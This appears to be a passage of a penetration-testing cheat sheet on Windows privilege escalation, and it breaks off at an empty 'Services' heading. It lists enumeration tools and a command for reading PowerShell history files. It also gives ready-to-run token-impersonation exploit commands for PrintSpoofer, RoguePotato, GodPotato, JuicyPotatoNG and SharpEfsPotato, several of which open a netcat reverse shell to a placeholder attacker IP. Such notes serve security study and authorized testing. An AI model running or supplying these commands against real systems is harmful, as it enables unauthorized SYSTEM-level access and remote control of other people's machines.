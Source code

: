 ### Windows Privilege Escalation

#### Basic

```powershell
#Starting, Restarting and Stopping services in Powershell
Start-Service SERVICE_NAME
Stop-Service SERVICE_NAME
Restart-Service SERVICE_NAME

#Powershell History
type C:\\Users\\USERNAME\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt
```

#### Automated Scripts

```
winpeas.exe
winpeas.bat
[Jaws-enum.ps](<http://Jaws-enum.ps>)1
[powerup.ps](<http://powerup.ps>)1
[PrivescCheck.ps](<http://PrivescCheck.ps>)1
```

#### Token Impersonation

* Command to check

```bash
whoami /priv
```

```bash
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -c "nc.exe ATTACKER_IP PORT -e cmd"

#RoguePotato
RoguePotato.exe -r ATTACKER_IP -e "shell.exe" -l 9999

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

#SharpEfsPotato
SharpEfsPotato.exe -p C:\\temp\\nc.exe -a "ATTACKER_IP PORT -e cmd" > w.log  #writes whoami command to w.log file
```

#### Services
